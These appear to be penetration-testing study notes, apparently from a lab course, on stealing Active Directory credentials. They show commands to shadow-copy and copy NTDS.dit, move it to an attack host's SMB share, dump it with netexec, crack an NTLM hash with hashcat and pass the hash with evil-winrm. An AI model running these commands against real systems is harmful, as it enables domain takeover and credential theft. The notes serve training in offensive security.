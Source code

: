 ❗: remember that we need local admin or domain admin rights.

```shell-session
PS C:\> vssadmin CREATE SHADOW /For=C:
```

now that we have a shadow copy of C: we can NTDS.DIT from it:
```shell-session
PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Before copying NTDS.dit to our attack host, we may want to use the technique we learned earlier to create an SMB share on our attack host.

```shell-session
PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

where 10.10.15.30 is the IP of the attack machine and CompData is the name of the share

### <mark class="hltr-orange">Capturing NTDS.DIT using netexec (method 2)</mark>

```shell-session
nxc smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### <mark class="hltr-orange">Cracking a single hash with Hashcat</mark>

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20240828021554.png]]

What if we are unsuccessful in cracking a hash?

### <mark class="hltr-orange">Pass-The-Hash Considerations</mark>

We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM%20uses%20an%20encrypted%20challenge,to%20the%20secured%20NTLM%20credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. Here is an example of how this would work:

```shell-session
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```


## <mark class="hltr-cyan">Credential Hunting</mark>

Credential Hunting is the process of performing detailed searches across the file system and through various applications to discover credentials.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>